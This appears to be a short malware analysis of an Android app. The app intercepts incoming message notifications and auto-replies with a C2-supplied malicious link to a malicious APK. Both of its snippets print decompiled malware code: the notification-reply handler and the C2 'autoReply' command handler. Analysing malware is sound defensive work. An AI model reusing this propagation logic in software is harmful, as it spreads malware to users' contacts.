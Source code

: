 The malware will first intercept the notifications of comming SMSs then auto reply to them with a message. This message is received from C2 server contains malicuos link to download malcious APK.

```cs
public void onNotificationPosted(StatusBarNotification statusBarNotification) {
        if (statusBarNotification != null) {
            a aVar = new a(this);
            this.f2719e = aVar;
            if (System.currentTimeMillis() - Long.parseLong(aVar.r(getString(R.string.app_name), String.valueOf(System.currentTimeMillis()))) >= 10800000) {
                String r = this.f2719e.r("autoReply", "{}");
                String packageName = statusBarNotification.getPackageName();
                d.j.a.a.c.b.a a = a(statusBarNotification.getNotification(), packageName);
                Bundle bundle = statusBarNotification.getNotification().extras;
                if (!(bundle == null || a == null || packageName == null || r.equals("{}"))) {
                    String b2 = b(packageName + bundle.getString("android.title"));
                    JSONObject jSONObject = new JSONObject(r);
                    if (jSONObject.has("all") || jSONObject.has(packageName)) {
                        long parseLong = Long.parseLong(this.f2719e.r(b2, "0"));
                        if (!this.f2718d.equals(b2) && System.currentTimeMillis() - parseLong > 43200000) {
                            this.f2718d = b2;
                            a.j(getApplicationContext(), jSONObject.has("all") ? jSONObject.getString("all") : jSONObject.getString(packageName));
                            this.f2719e.z(b2, String.valueOf(System.currentTimeMillis()));
                            cancelNotification(statusBarNotification.getKey());
                        }
                    }
                }
                this.f2719e.close();
            }
        }
    }
```

After the malware intercept the notification, the malware will receive a command `AutoReply` to reply to the notification with a message contains a malicicous link. This link could be a shorten link such as `Bit.ly` link.

```cs
else if (c2 == 1) {
                            if (jSONObject.has("autoReply")) {
                                s.this.s.put("status", "notify");
                                d.j.a.a.c.a aVar2 = new d.j.a.a.c.a(s.this.x);
                                aVar2.z("autoReply", jSONObject.getString("autoReply"));
                                aVar2.close();
                            } else {
                                s.this.s.put("status", "skip");
                                s.this.s.put("skip", System.currentTimeMillis());
                            }
                            s sVar3 = s.this;
                            sVar3.g0(sVar3.s);
                            s.this.r = 2;
                        }
```
